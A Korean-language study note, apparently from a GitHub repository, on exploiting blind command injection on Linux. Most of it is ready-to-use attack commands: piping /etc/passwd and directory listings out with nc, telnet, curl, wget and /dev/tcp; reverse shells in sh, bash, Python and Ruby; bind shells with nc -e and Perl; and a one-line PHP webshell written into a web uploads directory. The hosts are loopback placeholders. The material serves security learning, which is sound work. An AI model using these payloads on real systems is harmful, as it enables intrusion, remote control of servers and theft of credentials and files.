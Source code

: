# Command Injection for Linux

## 실행 결과를 확인할 수 없는 환경
Command Injection 취약점이 발생하지만 실행한 명령어의 결과가 보여지지 않을 때의 상황에서 활용할 수 있는 공격 방법

<br/>

### 네트워크의 인/아웃 바운드의 제한이 없을 때 사용할 수 있는 방법
* **Network Outboud**: 삽입할 명령줄에 네트워크 도구를 함께 실행해 자신의 서버에 명령어 실행 결과를 전송함
    - 네트워크 도구를 서버에 설치할 수 있거나 설치되었을 때 사용 가능한 방법들이 해당됨
    - 네트워크를 통해 명령어의 실행 결과를 전송하는 방법
        | 방법 | 설명 |
        |---|----|
        | nc(netcat) | TCP 또는 UDP 프로토콜을 사용하는 네트워크에서 데이터를 송수신하는 프로그램 <br/> &nbsp;&nbsp; - 셸에서 제공하는 파이프와 함께 사용하여 앞서 실행한 명령어의 결과를 네트워크로 전송할 수 있음 |
        | telnet | 네트워크 연결에 사용되는 프로토콜(클라이언트를 설치해 네트워크에 연결을 시도할 수 있음) <br/> &nbsp;&nbsp; - 파이프와 함께 사용하여 앞서 실행한 명령어의 결과를 네트워크로 전송할 수 있음 |
        | CURL/WGET | 웹 서버의 컨텐츠를 가져오는 프로그램 <br/> &nbsp;&nbsp; - 웹 서버에서 컨텐츠를 가져오기 위해 서버를 방문할 때 접속 로그가 남게 되는 특징을 이용해 명령어의 실행 결과를 웹 서버의 경로 또는 Body와 같은 영역에 포함해 전송함 |
        | /dev/tcp & /dev/udp | Bash에서 지원하는 기능으로 네트워크에 연결하는 방법 <br/> &nbsp;&nbsp; - ```/dev/tcp``` 또는 ```/dev/udp``` 장치 경로의 하위 디렉터리로 IP 주소와 포트 번호(```/dev/tcp/127.0.0.1/8000```)를 입력하면 Bash는 해당 경로로 네트워크 연결을 시도하는 특징을 이용해 출력을 ```>``` 문자로 재지정하여 해당 경로로 명령어의 샐행 결과를 전송할 수 있음 |
        + 예시
            ```
            # /etc/passwd 파일의 출력 결과를 127.0.0.1의 8000번 포트로 전송
            cat /etc/passwd | nc 127.0.0.1 8000
            cat /etc/passwd | telent 127.0.0.1 8000

            # CURL을 이용하여 ls -al의 결과(디렉터리 목록)를 네트워크(127.0.0.1의 8000번 포트)로 전송함
            curl "http://127.0.0.1:8000/?$(ls -al|base64 -w0)" # 실행 결과의 개행을 제거하기 위해 base64로 인코딩하여 전달함

            # CURL, WGET을 이용하여 ls -al의 결과(디렉터리 목록)를 Post Body에 포함해 요청을 보냄
            curl http://127.0.0.1:8000/ -d "$(ls-al)"
            wget http://127.0.0.1:8000 --method=POST --body-data="`ls -al`"

            # /dev/를 이용하여 /etc/passwd 파일의 출력 결과를 127.0.0.1의 8000번 포트로 전송
            cat /etc/passwd > /dev/tcp/127.0.0.1/8000
            ```

<br/>

* **Reverse & Bind Shell**: 임의로 실행할 명령어를 네트워크를 통해 입력하고, 실행 결과를 출력해 공격하는 기법
    - 리버스 셸(Reverse Shell): 공격 대상 서버에서 공격자의 서버로 셸을 연결하는 것
        + 리버스 셸을 이용해 명령어의 샐행 결과를 전송하는 방법
            | 방법 | 설명 |
            |---|------|
            | **sh & Bash** | ```/dev/tcp``` 또는 ```/dev/udp``` 경로를 사용해 포트를 서비스하는 서버에 공격 대상의 서버를 실행시킬 수 있음 <br/> &nbsp;&nbsp; - 경로에 입력한 IP 주소를 가진 서버에서 특정 포트를 열고 기다린 후 명령어를 실행하면 셸을 획득할 수 있음 |
            | **언어 사용** | 명령줄에서 코드를 작성해 실행할 수 있는 파이썬, 루비 등의 언어를 이용하여 명령줄에서 소켓을 사용해 리버스 셸 공격을 수행함 |
            - sh&bash를 이용한 리버스 셸 예시
                + 공격 대상 서버(victim)
                    ```
                    /bin/sh -i >& 
                    /dev/tcp/127.0.0.1/8000 0>&1
                    /bin/sh -i >&
                    /dev/udp/127.0.0.1/8000 0>&1
                    ```
                + 공격자 서버(attacker)
                    ```
                    nc -l -p 8080 -k -v
                    /* 명령어 실행 결과: 127.0.0.1를 가진 공격자 서버는 8000번 포트를 열고 연결을 기다리고 있음(공격 전에 미리 준비)
                    Listening on [0.0.0.0] (family 0, port 8080)
                    Connection from [127.0.0.1] port 8080 [tcp/http-alt] accepted (family 2, sport 42202)
                    */

                    id
                    /* 명령어 실행 결과 - 셸을 획득할 수 있음
                    uid=1000(aaa) gid=1000(aaa) groups=1000(aaa)
                    */
                    ```
            - 언어를 이용한 리버스 셸 예시 (명령줄에 해당 코드를 입력함)
                + 파이썬
                    ```python
                    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
                    ```
                + 루비
                    ```Ruby
                    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("127.0.0.1","8000");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
                    ```
    - 바인드 셸(Bind Shell): 공격 대상 서버에서 특정 포트를 열어 셸을 서비스하는 것
        + 바인드 셸을 통해 명령어의 실행 결과를 전송하는 방법
            | 방법 | 설명 |
            |---|------|
            | **nc(netcat)** | 버전에 따라 특정 포트에 임의 서비스를 등록할 수 있도록 제공하는 ```-e``` 옵션을 이용해 포트를 열고 ```/bin/sh```를 실행시킴 |
            | **언어 사용** | 펄(Perl) 스크립트를 작성해서 특정 포트를 셸(```/bin/bash```)과 함께 바인딩할 수 있음 |
            - nc를 이용한 바인드 셸 예시
                ```
                # 공격 대상 서버에서 8000번 포트를 열고 /bin/bash를 실행하는 명령어
                nc -nlvp 8000 -e /bin/bash
                ncat -nvlp 8000 -e /bin/bash
                ```
            - ```/bin/bash```와 함께 포트를 바인딩하는 펄 스크립트 예시
                ```perl
                perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
                ```

<br/>

* **파일 생성**: 애플리케이션 상에서 직접 확인할 수 있는 파일 시스템 경로에 명령어의 실행 결과를 저장한 파일을 생성하는 방법
    - 파일을 통해 명령어의 실행 결과를 보는 방법
        | 방법 | 설명 |
        |---|------|
        | **Script Engine** | *Command Injection 취약점이 발생하고, 웹 서버가 지정한 경로를 알고 있으면* 해당 위치에 셸을 실행하는 웹셸(Webshell) 파일을 업로드한 후 해당 페이지에 접속해 셸을 실행하여 그 결과를 확인함 <br/> &nbsp;&nbsp; - 웹 서버가 지정된 경로에 존재하는 파일을 브라우저에 표시한다는 점을 이용함 <br/> &nbsp;&nbsp; - PHP, JSP, ASP 등 웹 서버가 해석 가능한 파일을 만들어 접근할 수 있음 |
        | **Static File Directory** | Static File Directory에 실행한 명령어의 결과를 파일로 생성하고, 해당 파일에 접근해 그 결과를 확인함 <br/> &nbsp;&nbsp; - Static File Directory: 프레임워크 또는 웹 애플리케이션에서 JS/CSS/img 등의 정적 리소스를 다루기 위해 사용함 <br/> &nbsp;&nbsp;&nbsp; - Static File Directory에 파일 생성 권한이 있어야 공격이 가능함 |
        + Script Engine을 이용해 webshell을 등록하는 명령어 예시와 그 실행 결과
            ```php
            printf '<?=system($_GET[0])?>' > /var/www/html/uploads/shell.php
            ```
            - ```접속 경로/uploads/shell.php?0=id```를 브라우저에서 방문하면 id 명령어의 실행 결과를 확인할 수 있음
        + Static File Directory(```static```)를 이용한 실행 결과 확인 방법 예시 (파이썬 Flask 프레임워크)
            ```linux
            mkdir static; id > static/result.txt
            ```
            - 해당 디렉터리를 사용하지 않는 환경에서도 static 디렉토리를 생성하고 파일을 생성하면 그 결과를 확인할 수 있음 → static 디렉터리를 생성하고, ```id``` 명령어의 실행 결과를 result.txt에 저장하고 있음(```static/result.txt``` 페이지를 방문하면 실행 결과 확인 가능)

<br/><br/>
